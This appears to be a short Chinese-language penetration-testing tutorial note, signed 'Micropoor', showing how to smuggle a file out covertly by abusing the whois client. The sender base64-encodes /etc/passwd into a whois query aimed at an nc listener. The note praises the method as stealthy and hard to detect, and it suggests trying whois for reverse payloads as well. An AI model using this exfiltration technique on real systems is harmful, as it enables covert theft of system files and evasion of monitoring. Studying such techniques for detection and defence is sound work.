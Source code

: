 利用whois传输文件：

传输机：
```bash
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
```

接受机：
```bash
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```
![](/img/cd6ba6694ef1388b87dc4a5ce706ecd8.jpg)

![](/img/2ee55e5bed9e117f9340df1f2e755410.jpg)  

**优点：**适用于隐蔽传输。最小化被发现。  
**缺点：**适用于传输小文件。


>   后者的话：whois是否同样适用于payload的反弹，是一个非常有趣的实验。  
> 
>   Micropoor
